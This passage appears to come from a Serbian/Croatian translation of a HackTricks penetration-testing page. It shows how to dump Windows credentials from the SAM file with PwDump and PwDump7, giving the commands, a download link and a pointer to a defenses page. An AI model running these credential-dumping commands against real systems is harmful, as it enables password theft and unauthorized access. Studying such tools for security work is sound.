 ### PwDump

Izvucite akreditive iz SAM datoteke

```
You can find this binary inside Kali, just do: locate pwdump.exe
PwDump.exe -o outpwdump -x 127.0.0.1
type outpwdump
```

### PwDump7

Preuzmite ga sa: [http://www.tarasco.org/security/pwdump\_7](http://www.tarasco.org/security/pwdump\_7) i samo **izvršite ga** i lozinke će biti izvučene.

## Odbrane

[**Saznajte nešto o zaštiti akreditacija ovde.**](credentials-protections.md)

<details><summary><strong>Naučite AWS hakovanje od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>
